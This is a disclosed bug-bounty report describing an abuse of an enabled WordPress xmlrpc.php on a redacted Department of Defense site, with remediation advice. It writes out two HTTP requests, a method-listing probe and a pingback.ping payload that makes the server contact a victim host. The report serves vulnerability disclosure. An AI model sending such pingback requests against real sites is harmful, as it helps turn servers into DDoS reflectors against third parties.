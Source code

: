 # Application level DoS via xmlrpc.php 

## Report Details
- **Report ID**: 787179
- **URL**: https://hackerone.com/reports/787179
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-01T01:31:23.114Z
- **Disclosed**: 2020-05-14T17:52:10.076Z

## Reporter
- **Username**: mohammedadam24
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#Vulnerability description:

Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS. The website https://████/ has the xmlrpc.php file enabled and could thus be potentially used for such an attack against other victim hosts.

#Vulnerable links: https://█████/xmlrpc.php

In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below. 

POST /xmlrpc.php HTTP/1.1
Host: ███
Accept: */*
Accept-Language: en
Connection: close
Content-Length: 93

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>

## Impact

#Impact:
Notice that a successful response is received showing that the xmlrpc.php file is enabled.
Now, considering the domain https://██████/ the xmlrpc.php file discussed above could potentially be abused to cause a DDOS attack against a victim host. This is achieved by simply sending a request that looks like below.

POST /xmlrpc.php HTTP/1.1
Host: ██████
Accept: */*
Accept-Language: en
Connection: close
Content-Length: 235

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://██████/</string></value>
</param>
<param>
<value><string>https://███████/</string></value>
</param>
</params>
</methodCall>

As soon as the above request is sent, the victim host (█████████) gets an entry in its log file with a request originating from the https://█████/ domain verifying the pingback.

#Remediation:

If the XMLRPC.php file is not being used, it should be disabled and removed completely to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.

## Attachments
No attachments
